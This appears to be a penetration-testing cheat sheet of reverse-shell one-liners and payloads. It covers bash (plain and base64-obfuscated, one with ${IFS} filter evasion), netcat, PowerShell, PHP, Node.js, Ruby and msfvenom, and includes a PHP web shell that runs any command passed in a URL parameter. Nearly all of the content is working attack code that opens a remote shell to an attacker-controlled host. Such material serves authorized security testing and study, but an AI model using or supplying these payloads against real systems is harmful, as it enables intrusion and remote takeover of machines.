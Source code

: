 # Reverse Shells

- [Revshells](https://www.revshells.com/)

## Bash
[With Cyberchef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtaSA%2BJi9kZXYvdGNwLzEwLjEwLjEwLjEwLzQ0MyAwPiYx)
```bash
/bin/bash -i >& /dev/tcp/1.1.1.1/1235 0>&1
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 1234 >/tmp/f
```

```bash
{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx}|{base64,-d}|bash 
```

```bash
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx}|{base64,-d}|{bash,-i} 
```

```bash
echo${IFS}YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx|base64${IFS}-d|bash
```

```bash
echo YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx | base64 -d | bash 
```

## Powershell
### Base64
- [Revshells (Powershell #3 Base64)](https://www.revshells.com/)

[With Cyberchef](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=JHNvY2tldCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgnMTAuMTAuMTAuMTAnLDQ0Myk7IGlmKCRzb2NrZXQgLWVxICRudWxsKXtleGl0IDF9OyAkc3RyZWFtID0gJHNvY2tldC5HZXRTdHJlYW0oKTsgJHJlYWRlciA9IE5ldy1PYmplY3QgU3lzdGVtLklPLlN0cmVhbVJlYWRlcigkc3RyZWFtKTsgJHdyaXRlciA9IE5ldy1PYmplY3QgU3lzdGVtLklPLlN0cmVhbVdyaXRlcigkc3RyZWFtKTsgJHdyaXRlci5BdXRvRmx1c2g9JHRydWU7ICRwcm9tcHQgPSAnUFMgJyArICQoR2V0LUxvY2F0aW9uKSArICc%2BICc7ICR3cml0ZXIuV3JpdGUoJHByb21wdCk7IHdoaWxlKCR0cnVlKXsgJGRhdGEgPSAkcmVhZGVyLlJlYWRMaW5lKCk7ICRvdXRwdXQgPSAnJzsgdHJ5eyAkb3V0cHV0ID0gSW52b2tlLUV4cHJlc3Npb24gJGRhdGEgMj4mMSB8IE91dC1TdHJpbmcgfWNhdGNoeyAkb3V0cHV0ID0gJF8gfTsgJHdyaXRlci5Xcml0ZSgkb3V0cHV0ICsgJHByb21wdCkgfQ) ["Encode Text" UTF-16LE] -> [Base64]

```powershell
powershell -e JABzAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqA...
```

### Unencoded
```bash
$LHOST = "1.1.1.1"; $LPORT = 1242; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```bash
$socket = New-Object System.Net.Sockets.TCPClient('1.1.1.1',1244); if($socket -eq $null){exit 1}; $stream = $socket.GetStream(); $reader = New-Object System.IO.StreamReader($stream); $writer = New-Object System.IO.StreamWriter($stream); $writer.AutoFlush=$true; $prompt = 'PS ' + $(Get-Location) + '> '; $writer.Write($prompt); while($true){ $data = $reader.ReadLine(); $output = ''; try{ $output = Invoke-Expression $data 2>&1 | Out-String }catch{ $output = $_ }; $writer.Write($output + $prompt) }
```



## PHP
- [p0wny-shell](https://github.com/flozz/p0wny-shell/tree/master)

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/1.1.1.1/1235 0>&1'");?>
```

```bash
php -r '$sock=fsockopen("1.1.1.1",1235);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```html
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
        <input type="TEXT" name="cmd" id="cmd" size="80">
        <input type="SUBMIT" value="Execute">
        </form>
        <pre>
        <?php
            if(isset($_GET['cmd']))
            {
                system($_GET['cmd']);
            }
        ?>
        </pre>
    </body>
    <script>document.getElementById("cmd").focus();</script>
</html>
```

## Nodejs

```javascript
require('child_process').exec('nc -e /bin/bash 1.1.1.1 1235')
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(1235, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",1235).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## msfvenom
### Windows
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=1.1.1.1 lport=1235 -f aspx > shell.aspx
```
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=1235 -f exe -o shell.exe
```
